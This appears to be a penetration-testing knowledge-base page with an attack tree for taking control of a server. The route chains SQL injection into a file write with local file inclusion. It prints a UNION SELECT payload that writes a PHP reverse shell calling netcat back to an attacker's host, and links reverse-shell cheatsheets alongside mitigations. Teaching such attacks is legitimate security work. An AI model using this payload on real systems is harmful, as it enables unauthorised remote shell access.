 # Get shell and control target server

## Attack tree

```text
1 Netcat installed on both systems (hacking and target machines) (AND)
    1.1 Install netcat on both systems
    1.2 Create a reverse shell (for example with weevely)
    1.3 Setup a netcat listener on the hacking machine
2 SQL injection writing exploit to server (AND)
    2.1 Find out if the database is vulnerable (AND)
        1.1.1 Inject data in the query without breaking it
    2.2 Find the amount of columns (AND)
    2.3 Find which columns accept queries (AND)
    2.4 Build an UNION SELECT SQL segment
    2.5 Inject SQL statements into the column
    2.6 Post exploitation
3 Use file inclusion vulnerability
    3.1 Connect to the listener from the target machine
    3.2 Post exploitation
```
## Example SQL segments

PHP (and nc):
```text
-1' UNION SELECT '<?passthru("nc -e /bin/sh/ <IP hacking server> <port>");?>',null into outfile '/tmp/reverse.php' /*
```

## Notes

Works only in combination with a [local file inclusion vulnerability](../application/Local-file-incl-vuln.md).

## Tools
* [Burp suite CE proxy](https://portswigger.net/burp/documentation/desktop/getting-started/intercepting-http-traffic)

## Cheatsheets
* [Detect number of columns](cheatsheets:docs/databases/number-of-columns)
* [Union SQLi queries](cheatsheets:docs/databases/union-select)
* [Local file inclusion](cheatsheets:docs/application/lfi)
* [Reverse shell commands](cheatsheets:docs/application/reverse-shell-commands)
* [Path Traversal Cheat Sheet: Windows](https://www.akimbocore.com/article/windows-path-traversal-cheat-sheet/)
* [Path Traversal Cheat Sheet: Linux](https://www.akimbocore.com/article/linux-path-traversal-cheat-sheet/)

## Mitigations
* [Parameterised statements](app-mitigations:docs/databases/parameterised)
* [Input validation](app-mitigations:docs/databases/Input-validation)
* [Local file inclusion](app-mitigations:docs/coding/Local-file-inclusion)
